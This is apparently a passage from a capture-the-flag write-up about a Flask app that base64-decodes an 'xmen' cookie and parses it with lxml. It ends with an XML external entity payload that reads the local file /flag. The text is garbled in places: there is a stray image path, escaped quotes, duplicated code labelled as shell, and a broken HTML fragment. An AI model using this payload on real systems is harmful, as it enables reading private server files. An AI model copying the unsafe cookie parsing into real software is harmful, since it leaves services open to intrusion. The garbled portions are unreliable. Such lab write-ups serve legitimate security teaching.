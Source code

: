 ```shell

@app.route(&#34;/&#34;)
def index():
  return render_template(&#34;index.html&#34;)

@app.route(&#34;/xmen&#34;)
def xmen():
  cookie = request.cookies.get(&#34;xmen&#34;)
  try:
    b64decode(cookie)
    data = ET.fromstring(b64decode(cookie))
  except:
    return redirect(url_for(&#34;index&#34;))
  return render_template(&#34;xmen.html&#34;, data=data)
.jpg" alt="[...]" />
      <br/>
      <iframe src="/static/[...]
"></iframe>
    
  
</body>
```

**`/home/user/app.py`:**
```py
from flask import Flask, render_template, request, redirect, url_for
import lxml.etree as ET
from base64 import b64decode
app = Flask(__name__)

@app.route('/')
def index():
  return render_template('index.html')

@app.route('/xmen')
def xmen():
  cookie = request.cookies.get('xmen')
  try:
    b64decode(cookie)
    data = ET.fromstring(b64decode(cookie))
  except:
    return redirect(url_for('index'))
  return render_template('xmen.html', data=data)
```

Hmm... Nothing weird...

**After some "guessing", I found that the flag is in `/flag`:**
```py
    payload = b'''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///flag"> ]><input><xmen>&xxe;</xmen></input>'''
```
